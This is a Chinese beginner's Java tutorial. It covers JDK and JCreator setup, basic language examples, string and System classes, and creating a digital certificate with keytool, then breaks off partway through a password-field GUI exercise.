## 3.一个简单的Java程序

“万事具备，只欠东风”。通过上面的环境配置，现在就可以进行简单的程序测试了。

### 【例1】一个简单的Java程序

下面是一个简单的程序示例。将以下代码保存在记事本中，文件名为HelloWorld.java。然后，保存在C:\test目录下。

```
class HelloWorld
{
    public static void main(String args[])
    {
        System.out.println(" 电脑爱好者 的朋友们，大家好 "); // 打印文本
    }
}
```

现在，进入命令行模式，在C:\test目录下输入以下命令：

```
C:\test>javac HelloWorld.java
C:\test>java HelloWorld
```

结果如图4所示。

如果这个程序能够测试通过，说明我们已经顺利的迈过了Java入门的第一道关。尽管学习Java之路如此漫长，但是，一个良好的开始可以帮助我们拥有更多的信心去征服Java学习过程中的“拦路虎”。万一测试不成功，也不要心急，下面，还将给大家介绍一个超级助手，碰到难题时，它能够做到“有问必答”，甚至可以让用户把设置环境变量也免了。那么，我们来看看它是何方神圣？

## 二、超级助手：利用JCreator学习Java

### 1. JCreator 4.0的下载和安装

软件下载地址：http://www.onlinedown.net/soft/15163.htm 汉化补丁：http://www.onlinedown.net/soft/43595.htm 官方网址：http://www.jcreator.com

JCreator是一个小巧灵活的Java开发工具，它可将Java程序的编写、编译、运行和调试集成到环境中直接进行开发，而无需进行环境变量的设定。我们可以直接在JCreator中编辑Java源文件，选择相应的菜单和点击对应的按钮，就可以完成Java程序的编译、运行等工作，十分方便。

当前最新版本是JCreator 4.00.028，它又分为LE和Pro版本。LE版本功能上受到一些限制，是免费版本。Pro版本功能齐全而且比较小巧，对硬件要求不是很高，完全用C++写的，速度快、效率高，具有语法着色、代码自动完成、代码参数提示、工程向导、类向导等功能。英文版本安装完毕，需要首先启动软件，然后再运行汉化补丁。第一次启动时提示设置Java JDK主目录及JDK JavaDoc目录，软件自动设置好类路径、编译器及解释器路径，还可以在帮助菜单中使用JDK Help。这里给大家透漏一个好消息，经过汉化后，JCreator 4.00.028版本也是免费的了:)

以例1中的代码为例，在软件中打开HelloWorld.java文件，然后单击“生成”菜单下的“编译”命令。编译完毕，再单击“生成”菜单下的“执行文件”，界面如图5所示。

可以看到，在界面的左侧出现了输出的提示，在右侧出现了文件执行的结果。使用起来十分方便。

### 2.联袂演出：通过JCreator使用Java帮助文件

还记得最开始学习软件的时候吗？当我们遇到学习中的难题时，直接按“F1”按钮，所有的帮助文档都显示出来了！剩下的只是按照步骤直接去解决问题了。现在，通过JCreator，我们也可以很方便地即时查阅JDK帮助文档！而且，这个功能可以实现网页直接在JCreator的编辑窗口里显示，而不用另外打开任何浏览器进行浏览。这个功能对于初学Java的用户十分有用。

第一次运行JCreator时，系统会要求用户指定JDK的安装路径；在设置好JDK安装路径后，系统还会要求提供一个DOCS的路径。那么，如何设置这个路径呢？方法十分简单，介绍如下：

#### （1）下载JDK文档

从SUN公司网站下载对应的JDK文档。文档下载地址为：http://gceclub.sun.com.cn/chinese_java_docs.html。在这里，包含了丰富的Java文档，尤其是中文学习资料。如J2SE、J2EE、J2ME、XML、Web服务、API文档中文版、JavaChina在线、Java ONE在线、JavaStudio Creator、Java Studio Enterprise等，资料十分丰富。下面，在API文档中文版右侧下载最新的中文帮助文档。网站界面如图6所示。

小技巧：为了保证Java API文档中文版的翻译质量，Sun中国技术社区专门开设了Java API文档中文版相关论坛。用户可以积极参与并提高自己的Java技术水平。

#### （2）新建文档目录

在JDK安装目录（如安装目录为C:\jdk1.5.0）中建立一个名为docs的文件夹，然后将所下载的JDK文档解压到刚才建立的文件夹里，解压完成后，在安装JCreator时在相应地方选择刚才JDK文档所在的目录即可。需要注意的是：要保证docs文件夹下面不要再有docs文件夹。

#### （3）设置文档路径

在JCreator中，单击“配置”菜单下的“选项”，在弹出的对话框中，选择左侧白色窗口中的“JDK配置文件”，这时右边白色窗口中列出安装在我们机子上的JDK版本（默认的是JDK version），选中我们所使用的那个JDK版本，这时最左边的“编辑”按钮就可用了，如图7所示。

现在，单击“编辑”按钮，弹出“JDK Profile”窗口，窗口中有3个选项卡，选择“文档”，点击“添加”按钮，选择下载的JDK帮助文件所在目录，点击“确定”按钮后重新启动JCreator即可，如图8所示。

#### （4）查看新功能

当设置好后启动JCreator，就会发现JCreator有了新的变化。在JCreator中，单击“帮助”菜单栏的下拉菜单，就会发现多了一些帮助选项。有了这个来自SUN官方网站的好帮手，很多问题就可以迎刃而解了！

### 3. “活教材”：巧妙使用JDK文档

当在JCreator中编写程序或看别人的源代码的时候，肯定会碰到不熟悉或不知道的类或方法，这个时候用鼠标选中要查询的类名或方法名，然后点击JCreator软件“帮助”菜单下面的“JDK帮助”选项，这时会发现所要查询的资料马上就在JCreator中以网页的形式显示出来了。很简单，可以跟CHM格式的JDK文档媲美。

Sun公司提供的Java API Docs是学习和使用Java语言中最经常使用的参考资料之一。对于初学Java的用户来说，这就是一本“活教材”，如果能够用好这些帮助文件，可以达到事半功倍的效果。在JCreator中，点击“帮助”菜单下面的“JDK帮助”选项。例如，现在要查询关于Applet类的相关定义和使用方法，选择并单击右侧的“Applet”，在左侧即可看到详细的资料，如图9所示。

在编程的过程中，如果需要查询某个关键类的语法，可以单击“帮助”菜单下的“查找”，可以在输入框中输入需查找的关键字，系统会自动匹配相应JDK文档中的关键字，找到后，双击关键字或选中对应的关键字之后按“显示”即可。当然，也可以直接点击“Java API”选项卡，在其中的列表框中选择相应类所在的包进行查询。

小技巧：在JCreator编辑器中，需要查询某个方法如何使用时，将光标停留在该方法名称上，然后按“Ctrl+F1”，JCreator会自动在JDK的帮助文档中查找与关键字匹配的内容。

### 4.通过搜索引擎和专业论坛解决难题

在学习的过程中，还会遇到一些未知的难题，单凭手头有限的资料很难得到解决，如果问题积累比较多，很容易对学习积极性产生影响。因此，可以通过一些专业论坛和其他用户进行交流，这样也可以体会到学习的乐趣。

- （1）遇到难题时，可以通过搜索引擎解决
  例如，在程序调试的过程中，出现了“Exception in thread "main" java.lang.NoClassDefFoundError”错误，我们可以拷贝这段提示到百度等搜索引擎。这时，网站就会提示相关的答案了。

- （2）可以通过专业论坛解决
  如程序员网站（http://www.csdn.net/），其中有个Java专业讨论区。碰到难题时，通过帖子将详细的问题描述出来，还可以公布一定的悬赏分数，对于好的答案给予高分奖励，这样，很容易得到许多好的答案。类似的论坛还有不少。需要在平时的使用中多多积累，寻找最适合自己的解决方式。下面，提供几个比较好的Java专业站点供参考（见表1）。

## 三、活学妙用：迈出实战Java第一步

下面，从一些简单的案例入手，讲解其中的一些基础知识。

### 1.小试牛刀：查看Java常见数据类型范围

Java的数据类型有很多，如int、float、double、byte等。

#### 表 1 Java 专业网站参考

| 网站名称 | 网址 | 说明 |
| :--- | :--- | :--- |
| Sun的Java 技术站点 | http://java.sun.com/ | 官方技术站点 |
| java.net | http://www.java.net/ | JAVA开发的官方网站 |
| IBM developerWorks | http://www.ibm.com/developerworks/cn/ | IBM开发站点 |
| Planet Source Code | http://www.planetsourcecode.com | 优秀的代码收集站点，分类清晰 |
| Java世界 | http://www.chinajavaworld.com | 开发交流社区 |
| 中文JAVA技术网 | http://www.cn-java.com/ | 为Java爱好者服务 |
| Java research | http://www.javaresearch.org | 非常不错的开发社区，资源丰富 |
| JAVA中文站 | http://www.java-cn.com | 一个老牌的站点，提供大量资料 |
| 程序员 | http://www.csdn.net | 有专业的Java讨论社区 |
| 中国JAVA俱乐部 | http://www.cnjavaclub.com | Java论坛 |
| IT认证实验室 | http://java.chinaitlab.com | 大量的开发文档，分类清晰 |

在每个类型中，都有 MAX_VALUE 和 MIN_VALUE 属性，它们可以表示这种数据类型的最大值。为了让用户对数据类型有一种比较直观的认识，下面通过例子将其范围打印出来。

【例2】显示各个数据类型的最大值。

```
public class TestData { //java中的一切都可以用类表示
    public static void main(String[] args) { //每个程序必须有main()函数
        System.out.println("以下分别打印出JAVA简单类型的范围!");
        System.out.println("Byte:"+"从 "+Byte.MIN_VALUE+" 到 "+Byte.MAX_VALUE);
        System.out.println("Short:"+"从 "+Short.MIN_VALUE+" 到 "+Short.MAX_VALUE);
        System.out.println("Integer:"+"从 "+Integer.MIN_VALUE+" 到 "+Integer.MAX_VALUE);
        System.out.println("Long:"+"从 "+Long.MIN_VALUE+" 到 "+Long.MAX_VALUE);
        System.out.println("Float:"+"从 "+Float.MIN_VALUE+" 到 "+Float.MAX_VALUE);
        System.out.println("Double:"+"从 "+Double.MIN_VALUE+" 到 "+Double.MAX_VALUE);
    }
}
```

如图10所示。

### 2. 举一反三：定义 Java 变量的方法

Java 使用变量来存储所需的各种数据。例如，要计算金额，就要知道商品的单价和所卖出的数量，即用单价乘以数量来计算出总金额。因此必须将用户所输入的单价和商品数量存放在某一个地方，这样计算时，用户输入的值才能被程序使用。变量有三个基本要素：名字、类型和值。变量的值还可以改变，可以通过各种算术运算来改变变量的值。在使用一个变量之前，必须先声明它。声明变量一方面是给该变量分配内存空间，另一方面，是为了防止在以后使用此变量时因错误输入而对不存在的变量进行操作。

数据类型决定了变量所包含的值的范围。可以对变量进行哪些操作以及如何定义这些操作也是由数据类型决定的。举例来说，整型变量可以处理所有的整数，而double型变量可以处理所有的浮点数。

小知识：Java中的变量命名需要注意以下问题。

- ①它必须是一个合法的标识符。
- ②它必须不是一个关键字、布尔型字符(true或者false)或者保留字null。
- ③Java对变量名区分大小写。
- ④它必须在作用域中是唯一的。在不同的作用域才允许存在相同名字的变量。
- ⑤变量名最好有一定的含义，以增加程序的可读性。

合法的变量名如：myName、value_1、dollar$等。非法的变量名如：2mail、room#、class(保留字)等。

【例3】变量声明的方法。

```
public class Variable
{
    public static void main(String args[])
    {
        int i = -99, j = 0xabcd; //对各种类型变量赋值
        char c = 'c';
        long m = 1L, n = 123456789L;
        System.out.println("i = "+i); //打印各种类型变量的值
        System.out.println("j = "+j);
        System.out.println("c = "+c);
        System.out.println("m = "+m);
        System.out.println("n = "+n);
    }
}
```

运行结果如图11所示。

## 3. 基本规则：Java运算符与表达式案例

运算符也称为操作符，用于对数据进行计算和处理，或改变特定对象的值。运算符按照其操作数的数目来分，可分为一元运算符、二元运算符和三元运算符。按照运算符对数据的操作结果分类，运算符可以分为算术运算符、关系运算符、布尔逻辑运算符、位运算符、赋值运算符、条件运算符等。对一个复杂表达式进行运算时，要按照运算符的优先级顺序从高到低进行，同级的运算符则按从左到右的方向进行。

#### 【例4】逻辑运算符的使用与优先级。

```
public class LogicTest
{
    public static void main(String args[])
    {
        int i=1;
        boolean b;
        b=true || (++i>0); // 注意 i 值的变化和运算符优先级
        System.out.println(b);
        System.out.println(i);
    }
}
```

运行结果如图12所示。



### 4.基本功：Java 控制结构案例

程序通过流程控制语句完成对语句执行顺序的控制，如循环执行、选择执行等。Java 中的流程控制语句与 C++ 的流程控制语句并无太大差异。流程控制语句可以分为选择、循环和跳转等类型。下面分别介绍如下：

- 1. **if 语句**
  这是 Java 中最简单的流程控制语句，if 语句中包含一个条件表达式，如果计算条件表达式的结构为 true，则执行 if 语句中包含的代码块，否则跳过这个代码块。
- 2. **Switch 语句**
  当需要在多个选项进行选择时，可以使用 Java 中提供的 switch 语句来完成这一功能。switch 语句根据表达式的值来确定执行多路选择中的一项，表达式的值必须是整型或字符型。
- 3. **for 循环语句**
  这是通过控制一系列的表达式重复循环体内的程序，直到条件不再匹配为止。
- 4. **while 循环和 do-while 循环语句**
  while 语句比较简单，循环条件也必须是布尔表达式。while 语句的执行过程：首先判断是否满足循环条件。如果满足，则执行循环体中的程序代码；如果不满足，则跳过循环体执行 while 语句后面的程序代码。do-while 语句实现了“直到型”循环结构。这种结构先执行一次循环体再判断布尔表达式的真值，当布尔表达式的值为 true 时，重复执行循环体中的语句，每次执行循环体之后都要重新验证表达式的真值，直到表达式的值为假时退出循环。它的特点是先执行循环体，再判断表达式的真值。
- 5. **跳转语句**
  Java 支持 3 种跳转语句：break、continue 和 return。这些语句把控制转移到程序的其他部分。

#### 【例5】利用 for 语句计算 15 的阶乘。

```
class ForTest
{
    public static void main(String arg[])
    {
        int i, num=15, result=1;
        for(i=1; i<=num; i++) // 计算 1*2...*num 的值，相当于 num!
            result*=i;
        System.out.println(num+"! = "+result);
    }
}
```

运算结果如图13所示。



在上面的学习和测试过程中，我们也可以结合 JCreator 了解其中的使用方法。对于相关的类或函数使用方法不清楚时，通过软件帮助即可迅速找到答案。

### 5.按图索骥：轻松利用 JCreator 找错误

学习编程语言的过程中，很多用户最害怕的事情就是出现错误。仔细观察市面上出售的程序设计类书籍，我们很容易发现，这些书籍中的代码一般都没有错误，调试过程通常不会公布出来。虽然代码的正确率提高了，但用户却很难了解其中存在的问题和解决问题的思路。结合类和对象的基本概念，我们通过一个错误代码的修改过程，了解一般解决问题的办法。

目前，面向对象的程序设计方法已经成为主流的程序设计方法。Java 语言作为一种面向对象的程序设计语言在业界占据了重要的地位。对象与类是不同但又紧密相联的概念。类是对象的定义，对象由类来生成。类与对象的关系好比铸造车间里模具与产品的关系。模具只有一个，但是用这个模具可以浇铸出很多成型的产品出来，模具的形状决定了浇铸出来的产品的外形。在 Java 语言里用 new 关键字来生成对象，通常的格式为：类名 对象名 = new 类名([参数])；

例如，通过使用 Person 类生成两个 Person 对象 Mike 和 John，使用方法如下：

```
Person Mike = new Person();
Person John = new Person();
```

通过上述基本概念的理解，现在，通过一个有错误的小程序来理解类和对象，并通过 JCreator 软件来发现并改正错误。

#### 【例6】定义日期类。将以下程序命名为 TestMyDate.java。

```
class TestDate
{ // 日期类定义
    private int day=1; // 属性定义
    private int month=1;
    private int year=2000;
    MyDate(int day, int month, int year) {
        this.day = day;
        this.month=month;
        this.year=year;
    } //方法定义
    public void print()
    {
        System.out.println("MyDate is "+day+" "+month+" "+year);
    }
}

public class TestMyDate
{ //测试类定义
    public static void main(String []args)
    { //主方法定义
        MyDate today=new MyDate(28,6,2007);
        today.print();
    }
}
```

现在，将上述代码拷贝到 JCreator 软件中，然后单击 “生成” 菜单下的 “编译文件” 命令，在输出窗口中，出现错误提示：“TestMyDate.java:6: 方法声明无效；需要返回类型”，如图 14 所示。



通过软件的错误提示可以看到，MyDate（）这个方法声明无效。在 JCreator 中，光标也指向出错的所在行，因此，我们可以考虑前面的类是否出现问题。通过类名 TestDate 和 MyDate 的比较，就会发现两者名称不一致。现在，找到了出错的原因，将两个类名修改为相同的名称即可。然后重新运行程序，会发现调试正常。

> > 小知识：Java 提供了大量的类，为方便管理和使用，分为若干个程序包。程序包又称为类库或 API 包，所谓 API 就是 Application Program Interface，即应用程序接口。API 包一方面提供丰富的类和方法供编程人员使用，另一方面又负责和系统软硬件打交道，充分发挥了用户程序的功能。

通过这种循序渐进的方法，我们可以解决许多调试中遇到的问题，加上坚持不懈的积累，就可以逐步提高运用工具来学 Java 的能力。

## 四、触“类”旁通：从 Java 类库到 Java 小工具

类库就是 Java API（Application Programming Interface，应用程序接口），是系统提供的已实现的标准类的集合。在程序设计中，合理和充分利用类库提供的类和接口，以及功能成熟的小工具，不仅可以完成字符串处理、绘图、网络应用、数学计算等多方面的工作，而且可以大大提高编程效率，使程序简练、易懂。因此，掌握了这些类和典型工具的使用方法，在学习 Java 的道路上基本上可以大步跨越了。

### 1. 了解 Java 类库的“庐山真面目”

直接单击 JCreator 软件中“帮助”菜单下的“JDK 帮助”选项进行查看，如图 15 所示。这些类和接口大多封装在特定的包里，每个包具有自己的功能。表 2 列出了 Java 中一些常用的包及其简要的功能。其中，包名后面带“.*”的表示其中包括一些相关的包。



> > 小知识：在 Java 中，包的概念和目的都与其它语言的函数库非常类似，所不同的只是其中封装的是一组类。为了开发和重用的方便，我们可以将写好的程序类整理成一个个程序包。

有关类的介绍和使用方法，Java 中提供了极其完善的技术文档。我们只需了解技术文档的格式就能方便地查阅文档。

#### 表 2 Java 常用包及功能说明

| 包名 | 主要功能 |
| :--- | :--- |
| Java.Applet | 提供了创建 applet 需要的所有类 |
| Java.awt.* | 提供了创建用户界面以及绘制和管理图形、图像的类 |
| java.beans.* | 提供了开发 Java Beans 需要的所有类 |
| java.io | 提供了通过数据流、对象序列以及文件系统实现的系统输入、输出 |
| java.lang.* | Java 编程语言的基本类库 |
| java.math.* | 提供了简明的整数算术以及十进制算术的基本函数 |
| java.Rmi | 提供了与远程方法调用相关的所有类 |
| java.Net | 提供了用于实现网络通信应用的所有类 |
| java.security.* | 提供了设计网络安全方案需要的一些类 |
| java.Sql | 提供了访问和处理来自于 Java 标准数据源数据的类 |
| java.Text | 以一种独立于自然语言的方式处理文本、日期、数字和消息的类和接口 |
| java.util.* | 包括集合类、时间处理模式、日期时间工具等各类常用工具包 |
| javax.Accessibility | 定义了用户界面组件之间相互访问的一种机制 |
| javax.naming.* | 为命名服务提供了一系列类和接口 |
| javax.swing.* | 提供了一系列轻量级的用户界面组件，是目前 Java 用户界面常用的包 |

需要注意的是，在使用 Java 时，除了 java.lang 外，其他的包都需要 import 语句引入之后才能使用。可以看到，在平时编程过程中的许多功能，基本上都可以在这里找到。通过这些功能的任意组合，就可以在学习语言的过程中畅通无阻了。

### 2. 举一反三：了解 java.lang 包的常用类

在探险的过程中，探险队员总是随身携带一些功能独特的工具包，通过这些工具包，可以增强自身防御力和战斗力。程序员也是一样，在开发软件的过程中，也有自己的一些独门工具。在 Java 语言中，Java.lang 就是一个使用十分广泛的包。它在整个程序设计过程中起着基础性作用，程序中不必用 import 语句就可以使用其中的任何一个类。因此，Java.lang 对所有的 Java 程序都是必要的。既然如此，那么我们先来看看其中比较常用的 String 和 StringBuffer 类。

许多语言中，字符串是语言固有的基本数据类型。但在Java语言中字符串通过String类和StringBuffer类来处理。创建String对象最常用的方法是：在声明String类对象时，就对其进行初始化，方法如下：String str=new String("This is a string!")。下面，介绍一种连接字符串的方法。

【例7】连接字符串示例。

```
public class TestConcat
{
    public static void main(String args[])
    {
        String s1="电脑爱好者的朋友们";
        String s2=s1+","; // 通过“+”连接字符串
        String s3=s2.concat("大家好"); // 通过字符串连接函数连接
        String s4=new String("!");
        String s5=s3.concat(s4);
        System.out.println("连接而成的字符串是 "+s5);
    }
}
```

将上述代码拷贝到JCreator中，保存为TestConcat.java。单击“生成”菜单下的“编译文件”，编译完毕，再单击“生成”菜单下的“执行文件”命令，结果如图16所示。



在查看代码时，用户可能会对其中的concat()方法感到迷惑不解，甚至会感到奇怪：这个方法是从哪里来的呢？要寻找这个答案，Java类库就发挥作用了。单击“帮助”菜单下的“查找”，然后输入关键字“concat”，查找范围选择“Java API”，回车后就可以在“查找结果”中看到这个方法的详细介绍了。如帮助中对“concat”方法的解释为：“将指定字符串连接到此字符串的结尾。”这对于刚刚接触Java语言的用户来说，无疑具有很大的参考价值，而且具有举一反三的作用，如图17所示。



类似的方法还有很多，例如，在字符串中查找字符和子串可以用以下方法：charAt、indexOf、lastIndexOf。下面给出参考代码。

【例8】在字符串中查找字符和子字符串。

```
public class TestStrSearch
{
    public static void main(String args[])
    {
        String s1="Java";
        char c=s1.charAt(2); // 获取字符串下标为2的字符
        System.out.println("c = "+c);
        int i=s1.indexOf('a'); // 获取字符a第一次出现位置
        System.out.println("firstchar = "+i);
        int j=s1.lastIndexOf('a'); // 获取字符a最后一次出现位置
        System.out.println("lastchar = "+j);
        i=s1.indexOf("av");
        System.out.println("firststring = "+i);
        i=s1.lastIndexOf("av");
        System.out.println("laststring = "+j);
    }
}
```

在处理字符串方面，除了String类，还有StringBuffer类用于处理可变字符串。当修改一个StringBuffer类的字符串时，不用再创建一个新的字符串对象，而是直接操作原字符串。StringBuffer类中提供了很多种操作方法，使用十分方便。

此外，在java.lang包中，还有比较常见的System类和Math类。分别介绍如下。java.lang.System类主要提供与系统相关的静态方法和一些静态对象，如标准输入输出。System提供了3个和标准输入输出相关的属性：System.in、System.out、System.err，分别是标准输入、标准输出和标准错误输出。通常，标准输入是指控制台下的键盘输入，标准输出和标准错误输出是指控制台下的屏幕输出。System类有一些有用的方法，这些方法用于处理运行环境。如通过使用currentTimeMillis()可以记录程序执行的时间；通过使用arraycopy()方法可以将一个任意类型的数组快速地从一个地方复制到另一个地方。通过调用System.getProperty()方法来获得不同环境属性的值等。例如下面的程序显示当前用户目录的路径。

【例9】获取当前用户的路径。

```
class UserDir{
    public static void main(String args[])
    {
        System.out.println(System.getProperty("user.dir")); // 获取当前用户的路径
    }
}
```

运行界面如图18所示。

另外，就是 Math 类。Java 里的 Math 类包括了两个常量和许多方法以支持数学运算。Math 类的两个常量是 PI 和 E，这两个常量是数学计算中常用的。Math 类的方法包括了很多数学函数，例如，三角函数、对数、求幂等。用户可以通过 Java 文档详细查看，结合上面的学习方法，真正达到触“类”旁通的目的。

### 3.实用工具：利用 Java 制作网络“身份证”

掌握了一些类的使用方法，还可以使用一些 Java 小工具。在 bin 目录下，还包含了使用比较频繁的命令行工具。其中，javac.exe 是 Java 编译器，java.exe 是 Java 应用程序的启动器，jar.exe 用于管理 Java 归档文件，javadoc.exe 用于提取代码中的注释，并根据这些注释生成 HTML 文档，appletviewer.exe 用于调试 applet 程序，keytool.exe 工具用来创建数字证书等。在学习 Java 语言的过程中，还必须了解这些常用的命令及其常用选项，从而提高应用 Java 的能力。下面，以 keytool.exe 小工具为例。

打开 Internet Explorer，在 Internet Explorer 的菜单上，单击“工具”菜单中的“Internet 选项”。选取“内容”选项卡，点击“证书”按钮来查看读者信任的当前证书的列表。选择“受信任的根证书颁发机构”选项卡，可以看到各种各样的证书信息，如图 19 所示。



随便选择一张证书，双击后即可看到“证书”对话框。然后，单击“详细信息”选项卡，可以看到证书中所包含的相关信息，如图 20 所示。



在这个界面中，包含了如下的具体信息。

- ①版本：它用来区别 X.509 的各种连续的版本。
- ②序列号：序列号是一个整数值，在发行的证书颁发机构中是唯一的。序列号与证书有明确联系，就像身份证号码和公民日常登记有明确联系一样。
- ③签名算法：算法识别符识别证书颁发机构用来签署证书的算法。证书颁发机构使用它的私钥对每个证书进行签名。
- ④颁发者：证书颁发机构是创建这个证书的机构。
- ⑤有效期：提供证书有效的起止日期，类似于信用卡的期限。
- ⑥主题：证书对他的身份进行验证。
- ⑦公钥信息：为证书识别的主体提供公钥和算法识别符。
- ⑧签名：证书签名覆盖了证书的所有其他字段。如果有人使用了证书颁发机构的公钥来解密哈希代码，同时计算了证书的哈希代码，而两者并不相同，那么证书的某一部分就肯定被非法更改了。

看到这些复杂的信息，用户可能会感到纳闷。这些功能通过 Java 语言能够实现吗？答案是肯定的。在 Java 中创建数字证书的方法十分简单，通过 keytool.exe 工具即可实现。它可以用来创建数字证书，所有的数字证书是以一条一条（采用别名区别）的形式存入证书库中的，证书库中的一条证书包含该条证书的私钥，公钥和对应的数字证书的信息。下面，通过一种“Step by Step”的方法，了解如何生成数字证书及给数字证书签名。

#### (1) 输入命令

Java 环境配置好后，输入一个命令，然后按照提示回答问题，即可轻松创建一个证书。现在，我们要创建一个证书库为 cfanCALib，别名为 cfanCA 的一张证书，并且采用 RSA 算法，密钥长度为 1024 位，证书有效期为 3650 天。完整的命令如下：

```
`C:\jdk1.5.0\bin>keytool -genkey -alias cfanCA -keyalg RSA -keysize 1024 -keystore cfanCALib -validity 3650`
```

#### (2) 输入参数，创建数字证书

如图 21，根据提示，输入相关资料。注意，这些资料和我们在浏览器中数字证书的一致性。从这点，可以体会到 Java 语言的强大性和趣味性。完成上述步骤，就可以轻松拥有我们的第一张数字证书了，现在，在 C:\jdk1.5.0\bin 目录下，就有了一个 cfanCALib 文件。



#### (3) 查看证书列表

可能用户会产生疑问：创建的数字证书到底在哪里呢？不要心急，下面，在 DOS 下面查看 cfanCALib 证书库里面所有证书列表，具体的方法如下：

```
`C:\jdk1.5.0\bin>keytool -list -keystore cfanCALib`
```

如图 22 所示。

显示 cfanCALib 证书库中别名为 cfanCA 的证书的信息的方法为：

```
`C:\jdk1.5.0\bin>keytool -list -alias cfanCA -keystore cfanCALib -v`
```

cfanCALib

#### (4) 查看证书详细信息

显示证书的详细信息的方法时需要加入一个 -v 参数，具体的方法为：

```
C:\jdk1.5.0\bin>keytool -list -v -alias cfanCA -keystore cfanCALib
```

具体情况如图23所示。



#### (5) 导出个人网络‘身份证’

对于比较熟悉数字证书的朋友来说，可能比较习惯看到后缀名为.cer，而且文件的图标有点类似一张绿卡的数字证书文件。其实，这样的文件就是把证书库cfanCALib中的别名为cfanCA的证书导出到cfanCA.cer证书文件后形成的，它包含证书主体的信息及证书的公钥，不包括私钥，可以公开，其方法为：

```
C:\jdk1.5.0\bin>keytool -export -alias cfanCA -file cfanCA.cer -keystore cfanCALib
```

#### (6) 安装数字证书

执行以上命令后，我们看到，C:\jdk1.5.0\bin下面多了一个cfanCA.cer的文件。在这个文件上面点击右键，在弹出的选项中选择“安装证书”，按照提示直接选择默认的“下一步”，出现如下提示时，选择“是”，系统将提示安装成功，如图24所示。



#### (7) 查看数字证书

现在，我们就要看到亲手制作的数字证书了！单击“工具”菜单中的“Internet 选项”。选取“内容”选项卡，点击“证书”按钮，切换到“受信任的根证书办法机构”，就可以看到“Java学习者”的数字证书了，如图25所示。



通过这个案例，我们进一步体会到了Java的强大功能。同时，还可以开阔思维，学到许多新方法，从而对Java语言及其架构有一种整体认识。下面，讲解bin目录下的另一个小工具：Java Applet。

## 4.交互工具：让网络应用更强大的Java Applet

在早期网页上，所能显示的只是呆板的静态文字，用户不能和服务器交互。基于Java语言的Applet技术的出现改变了这一切。Applet称为小程序，它是嵌入到网页上执行的Java程序，在支持Java虚拟机的浏览器上都可以执行。和其他语言相比，Java的主要特色之一是可以很容易地编写Applet。当小程序到达客户端，它被限制访问本地资源，以使它能够在不受病毒威胁和破坏数据完整性的情况下，生成一个二进制的多媒体用户界面以及完成复杂的计算。通过编写Java程序，可以让Applet显示图片、动画和播放声音，还能像桌面应用程序那样用图形用户界面和服务器端交互。所有这一切曾经让人们为之疯狂，Java时代也从此到来。Appletviewer.exe这个命令和java、javac等其他Java命令一样，在JDK安装的BIN文件夹下。必须先设置路径才可以运行。在这里，我们通过一个最简单的实例来看Applet的运行。编写如下的一段程序，然后编译，但是先不要运行。因为Applet的运行和普通的应用程序不一样。

### 【例10】一个简单的Java Applet程序。

```
import java.awt.*;
import java.applet.*;
public class TestApplet extends Applet
{
    String s;
    public void init()
    {
        s="大家好，这里是我们的Java俱乐部";
    }
    public void paint(Graphics g)
    {
        this.setBackground(Color.CYAN); //设置背景色
        g.drawString(s,30,30); //设置显示区域
    }
}
```

编译好之后。在 TestApplet.class 同目录下建立一个 HTML 或者 HTM 文件，建立文件 TestApplet.html。输入如下 HTML 代码：

```
<html>
<body>
<Applet CODE=TestApplet.class width=400 height=250>
</body>
</html>
```

运行界面如图 26 所示。



小技巧：除了 Applet 本身，Web 页面可以包含我们所知道的所有其他 HTML 元素。Applet 只是超文本页面的一部分，但 Java 不是设计 HTML 页面的工具。实际上，Applet 是使它们变得鲜活的工具，它们必须同网页 HTML 设计结合起来才能更好地工作。

在上面的代码中，`<Applet>` 标记是专门用来在网页中嵌入 Applet 的标记。标记的 Code 属性是必需的属性，它指明了编译好的 Applet 的字节码文件名。Width 和 Height 也是必需的属性。它们给出了 Applet 显示的初始宽度和高度(以像素为单位)。除了这些必需属性以外，还有以下几个可选的属性。

- （1）Codebase 属性
这个属性指定 Applet 的 URL 基址，就是包含 Applet 文件的目录。如果没有给出这个属性，就以当前 HTML 文档的 URL 地址作为缺省值。Code 属性只能是相对于 Codebase 属性的地址，不能是绝对地址。
- （2）Alt 属性
当浏览器不支持 Applet 时，将会显示 Alt 属性所设置的替代文本。
- （3）Name 属性
这个属性为 Applet 实例定义了一个名字，以便同一网页中的多个 Applet 能够互相通信。
- （4）Align 属性
这个属性指定 Applet 显示区的对齐方式。可以设为：left、right、top、middle、bottom 等。

在 `<Applet></Applet>` 标记之间还可以嵌套一个子标记 `<PARAM>`，这个标记是可选的。用它来指定 Applet 的外部参数。Applet 通过 getParameter() 方法得到所给的属性值。不支持 Java 的浏览器会显示 `<Applet></Applet>` 标记之间的 HTML 文档。支持 Applet 的则不会。除了可以在浏览器里运行 Applet。另外，也可以用 Java 提供的 Appletviewer 命令来运行 Applet。命令格式如下：Appletviewer TestApplet.html。

## 五、体验Java：一个密码输入框的设计

学习 Java 的过程需要不断的实践，下面，我们来演示如何在图形界面中控制口令的回显。设计思路如下。

- （1）构思大致界面及功能
在本例中，界面上有一个用户名输入框和口令输入框，一个“确定”按钮和一个“取消”按钮。输入用户和密码后，可以在控制台中显示。这个实例比较简单，也很常用。因此，设计之前，我们首先要在脑海里构思其大概界面。
- （2）查找实现的类和方法
由于需要用到图形显示，因此，我们可以考虑使用 Swing 包。在这个包中，提供了 JPasswordField 类用于输入一行口令，通过其 setEchoChar() 方法可以设置回显的字符，通过其 getPassword() 方法可以获得输入的口令值。
- （3）学习 JPasswordField 类的使用方法
打开 JCreator 软件，查找 “JPasswordField” 关键字，可以看到，在帮助文档中列出了详细的使用方法。文档的说明如下：“JPasswordField 是一个轻量级组件，允许编辑一个单行文本，其视图指示键入内容，但不显示原始字符。JPasswordField 与使用 echoChar 设置的 java.awt.TextField 是根本一致的。单独提供它可以较方便地安全更改 JTextField 的 UI 而不影响密码输入。” 同时，在其下方列出了详细的方法说明。

表 3 关于类的方法说明
| 返回值 | 类型 | 说明 |
| :--- | :--- | :--- |
| boolean | echoCharIsSet() | 如果此 JPasswordField 具有为回显设置的字符，则返回 true。 |
| char | getEchoChar() | 返回要用于回显的字符。 |
| char[] | getPassword() | 返回此 TextComponent 中所包含的文本。 |
| void | setEchoChar(char c) | 设置此 JPasswordField 的回显字符。 |

列出此表的作用在于，以后遇到类似的问题时，也可以通过这种表格模式寻找答案。

- （4）初步构思
基本按照以下思路开始设计：口令和文本输入域；设置口令回显字符为 X；鼠标单击 “OK” 按钮时显示的代码；软件界面布局设计；关闭窗口代码。同时，确定 TestPassword 类为主要入口。
- （5）在 JCreator 中新建工程
